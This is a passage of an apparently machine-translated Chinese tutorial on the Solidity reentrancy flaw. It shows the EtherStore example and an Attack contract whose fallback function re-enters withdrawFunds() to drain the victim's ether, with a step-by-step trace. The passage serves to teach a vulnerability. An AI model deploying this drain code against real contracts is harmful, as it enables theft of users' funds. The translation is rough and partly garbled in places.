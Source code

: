 该合约有两个公共职能。depositFunds()和withdrawFunds()。该depositFunds()功能只是增加发件人余额。该withdrawFunds()功能允许发件人指定要撤回的wei的数量。如果所要求的退出金额小于1Ether并且在上周没有发生撤回，它才会成功。还是呢？...	
该漏洞出现在[17]行，我们向用户发送他们所要求的以太数量。考虑一个恶意攻击者创建下列合约：

```
contract Attack {
    EtherStore public etherStore;
        // intialise the etherStore variable with the contract address
        constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }
    
    function pwnEtherStore() public payable {
        // attack to the nearest ether
        require(msg.value >= 1 ether);
        // send eth to the depositFunds() function
        etherStore.depositFunds.value(1 ether)();
        // start the magic
        etherStore.withdrawFunds(1 ether);
    }
    
    function collectEther() public {
    msg.sender.transfer(this.balance);
    }
    // fallback function - where the magic happens
    
    function () payable {
        if (etherStore.balance > 1 ether) {
        etherStore.withdrawFunds(1 ether);
        }
    }
}
```

让我们看看这个恶意合约是如何利用我们的EtherStore合约的。攻击者可以0x0...123使用EtherStore合约地址作为构造函数参数来创建上述合约（假设在地址中）。这将初始化并将公共变量etherStore指向我们想要攻击的合约。
然后攻击者会调用这个pwnEtherStore()函数，并且有一些以太（大于或等于1），1 ether这个例子可以说。在这个例子中，我们假设一些其他用户已经将以太币存入这份合约中，这样它的当前余额就是10 ether。然后会发生以下情况：	
1. Attack.sol -Line[15] -的depositFunds()所述EtherStore合约的功能将与被叫msg.value的1 ether（和大量gas）。sender（msg.sender）将是我们的恶意合约（0x0...123）。因此，balances[0x0..123] = 1 ether。
2. Attack.sol - Line [17] - 恶意合约将使用一个参数来调用合约的withdrawFunds()功能。这将通过所有要求（合约的行[12] - [16] ），因为我们以前没有提款。
3. EtherStore.sol - 行[17] - 合约将发送1 ether回恶意合约。
4. Attack.sol - Line [25] - 发送给恶意合约的以太网将执行后备功能。
5. Attack.sol - Line [26] - EtherStore合约的总余额是10 ether，现在9 ether是这样，如果声明通过。
6. Attack.sol - Line [27] - 回退函数然后EtherStore withdrawFunds()再次调用该函数并“ 重新输入 ” EtherStore合约。
7. EtherStore.sol - 行[11] - 在第二次调用时withdrawFunds()，我们的余额仍然1 ether是行[18]尚未执行。因此，我们仍然有balances[0x0..123] = 1 ether。lastWithdrawTime变量也是这种情况。我们再次通过所有要求。
8. EtherStore.sol - 行[17] - 我们撤回另一个1 ether。
9. 步骤4-8将重复 - 直到EtherStore.balance >= 1[26]行所指定的Attack.sol。
10. Attack.sol - Line [26] - 一旦在EtherStore合约中留下少于1（或更少）的ether，此if语句将失败。这样就EtherStore可以执行合约的[18]和[19]行（每次调用withdrawFunds()函数）。
11. EtherStore.sol - 行[18]和[19] - balances和lastWithdrawTime映射将被设置并且执行将结束。
最终的结果是，攻击者已经从EtherStore合约中立即撤销了所有（第1条）金额，只需一笔交易即可。
